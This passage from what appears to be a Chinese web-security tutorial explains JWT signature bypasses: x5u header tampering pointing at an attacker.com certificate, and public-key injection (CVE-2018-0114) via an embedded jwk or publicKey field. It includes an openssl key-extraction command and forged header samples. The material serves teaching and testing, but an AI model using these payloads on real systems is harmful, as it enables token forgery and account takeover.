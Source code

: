     提取 attacker.crt 证书公钥输出重定向到 publicKey.pem 文件。
    
    ```bash
    openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
    ```
    
2.  拿公钥 publicKey.pem 和私钥 attacker.key 对 JWT 重新签名。篡改 JWT 中 x5u URL 指向为攻击者给定公钥即可。
    
    ```json
     {
       "alg": "RS256",
       "typ": "JWT",
       "x5u": "https://attacker.com/attacker.crt"
     }
    ```
    

危害延申思考：

-   利用 JKU/X5U 时他们都会像指定 URL 请求，那么有没可能存在 SSRF 呢？
-   Bypass JKU/X5U URL、Domain 有做限制，可不可以 ByPass 黑名单，通过任意重定向漏洞来绕过呢？

### 公钥注入（CVE-2018-0114）

用户可以手动指定公钥验签，产生安全问题。

JWT 使用非对称加密时还在 Token 中传输了公钥，服务端使用此公钥进行验签。此时可以自己生成一套公私钥，通过私钥对数据签名，最后将公钥放到 JWT 中，服务端接收到 JWT 通过数据中公钥对数据验签。

常见场景是在 JWT Header 中传输 RSA n 和 RSA e。

```json
{
    "alg": "RS256",
    "typ": "JWT",
    "jwk": {
        "alg": "RS256",
        "e": "AQAB",
        "kid": "5N0bTJKpSWJxDlgM86/ni8p4M/0Z6HyhG085sOr+y8w=",
        "kty": "RSA",
        "n": "gd1BjHCazeeSnCtJtK5CQHLi7pkmAihIvBWhUuSpNzgVrwsWzQspCQ9qRKsaZOtuJcbFJd0cgJYiO-egH-aheI8b2OIsi_VWjq9Gf2BkFk8ZyuErBJml6aJmf_o4lOblnbAN4Tw8_W5_SA0E3N_vU5Ay9ruCykKkiVShOejRJzqey58bcVmSv3aAggsY8_GuLWuSZ9BhWeuEwp-Dx3wsGknmES2NDoko4vtTHFb_p32B0G1YKYtoY-n3IligDGOghT_sFrjTXPBNn27gkFI-38soHTttShepXQYPDUaOJYyh7NovhoOCntRBlqeFgvtYfWj-iLj5ISeAhhn1Phuk1Q",
        "use": "sig"
    }
}
```

或者直接传递编码后的 PublicKey。

```json
{
    "alg": "RS256",
    "typ": "JWT",
    "publicKey": "a123123asdasdzxd"
}
```
